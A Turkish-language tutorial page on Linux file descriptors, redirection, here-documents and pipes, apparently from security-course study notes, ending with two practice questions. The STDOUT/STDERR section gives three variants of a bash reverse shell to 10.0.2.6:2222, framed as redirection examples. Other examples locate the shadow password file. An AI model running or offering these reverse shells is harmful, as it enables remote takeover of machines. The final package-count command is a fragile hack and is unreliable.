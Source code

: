 ```yaml
---
icon: material/help
---
```


# File Descriptors and Redirections

## File Descriptors

| Name | Value | Description |
|:---|:---|:---|
| STDIN | 0 | Girdiler için kullanılan veri akışı. |
| STDOUT | 1 | Çıktılar için kullanılan veri akışı. |
| STDERR | 2 | Hata çıktıları için kullanılan veri akışı. |

## STDOUT and STDERR

Bir komutun çalışması esnasında üretebileceği hatalar Null Device konumuna yeniden yönlendirilerek göz ardı edilebilir:

```bash
find /etc -name shadow 2> /dev/null
```

Aşağıda verilen komut ile STDERR ve STDOUT, açılacak olan IP adresi ve port hedefine yeniden yönlendirilmiştir:

```bash
bash -i > /dev/tcp/10.0.2.6/2222 2>&1
```

Yukarıdaki yeniden yönlendirme farklı şekillerde de ifade edilebilir. Bunlardan biri aşağıda verildiği gibidir:

```bash
bash -i &>/dev/tcp/10.0.2.6/2222
```

Diğeri ise aşağıda verildiği gibidir:

```bash
bash -i >&/dev/tcp/10.0.2.6/2222
```

İlk verilen kullanım şekli, önerilen kullanım şeklidir.

## Redirect STDOUT and STDERR to Separate Files

Bir komutun ürettiği çıktılardan STDOUT akışı bir dosyaya, STDERR akışı ise başka bir dosyaya yeniden yönlendirilebilir:

```bash
find /etc -name shadow 2>stderr.txt 1>stdout.txt
```

## Redirect STDIN

Yeniden yönlendirme işlemi STDIN akışı için de yapılabilir. Bunun için farklı olarak `>` işareti yerine `<` işareti kullanılır. Örneğin `stdout.txt` dosyasına kaydedilen veriler `#!bash cat` aracına girdi olarak verilebilir:

```bash
cat 0<stdout.txt
```

## Redirect STDOUT and Append to a File

Eğer `>` işareti ile yeniden yönlendirme yapılırsa yeni bilgiler eski bilgilerin üzerine yazılır. Bunu önlemek için `>>` işareti kullanılabilir. Böylece yeni bilgiler eski bilgilerle birlikte tutulur:

```bash
find /etc -name shadow 2>stderr.txt 1>>stdout.txt
```

## Redirect STDIN Stream to a File

Eğer `<<` işareti kullanılırsa kullanıcı girdisi akışa eklenebilir. Girdinin ne zaman biteceğinin algılanması için bir anahtar kelime de (örneğin EOF) verilmelidir. Bu tarz bir yeniden yönlendirme [Here Documents](https://www.gnu.org/software/bash/manual/bash.html#Here-Documents) formatıdır:

```bash
cat << EOF > stream.txt
```

## Pipes

STDOUT akışını yeniden yönlendirmenin başka bir yolu da Pipe kullanmaktır. Aşağıdaki komutta örnek bir Pipe kullanımı gösterilmiştir:

```bash
find /etc -name "*.conf" 2> /dev/null | grep systemd
```

## Questions

```text
How many files exist on the system that have the ".log" file extension?
```

??? tip "Steps"

    ```bash
    find / -name "*.log" -type f 2> /dev/null | wc -l
    ```

```text
How many total packages are installed on the target system?
```

??? tip "Steps"

    Aşağıda verilen komut ile elde edilen sayının 1 eksiği alındı. Çünkü komut çıktısının ilk satırı, bilgi satırıdır:

    ```bash
    apt list --installed 2> /dev/null | $(($(wc -l) - 1))
    ```
